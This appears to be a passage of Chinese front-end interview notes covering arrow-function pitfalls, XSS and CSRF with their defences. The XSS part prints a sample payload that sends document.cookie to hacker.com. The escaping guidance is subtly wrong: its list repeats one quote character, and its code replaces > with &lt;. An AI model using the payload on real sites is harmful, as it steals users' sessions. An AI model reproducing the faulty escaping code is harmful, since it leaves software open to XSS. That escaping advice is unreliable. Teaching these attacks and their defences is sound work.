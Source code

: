 3. **定义构造函数**

   构造函数中的 this 指向新创建的对象，当执行 new Car() 的时候，构造函数 Car 的上下文就是新创建的对象，也就是说 this instanceof Car === true。显然，箭头函数是不能用来做构造函数， 实际上 JS 会禁止你这么做，如果你这么做了，它就会抛出异常。

```
const Message = (text) => {
    this.text = text;
};
// Throws "TypeError: Message is not a constructor"
const helloMessage = new Message('Hello World!');
```

4. **定义事件回调函数**

```
const button = document.getElementById('myButton');
button.addEventListener('click', () => {
    console.log(this === window); // => true
    this.innerHTML = 'Clicked button'; // 此时的this指向了window, window.innerHTML没有任何意义
});
```

### 前端安全性有了解吗？

#### XSS攻击与防御

 XSS又称CSS，全称Cross SiteScript，跨站脚本攻击。

```
// userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
div.innerHTML = userComment  // 恶意代码就被执行了，这就是 XSS
```

1. 不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
2. 使用网页安全政策（Content Security Policy，缩写 CSP），实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。
3. 如果你一样要用 innerHTML，字符过滤
   - 把 < 替换成 `&lt;`
   - 把 > 替换成 `&gt;`
   - 把 & 替换成 `&amp;`
   - 把 ' 替换成 `&#39;`
   - 把 ' 替换成 `&quot;`
   - 代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...

#### 什么是 CSRF 攻击？如何预防？

CSRF（Cross Site Request Forgery, 跨站域请求伪造）

- 过程
  1. 用户在 qq.com 登录
  2. 用户切换到 hacker.com（恶意网站）
  3. hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
  4. 用户在不知不觉中添加 hacker 为好友。
  5. 用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
- 避免
  1. 检查 referer，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站。qq.com 可以拒绝来自 hacker.com 的请求
  2. csrf_token 来解决
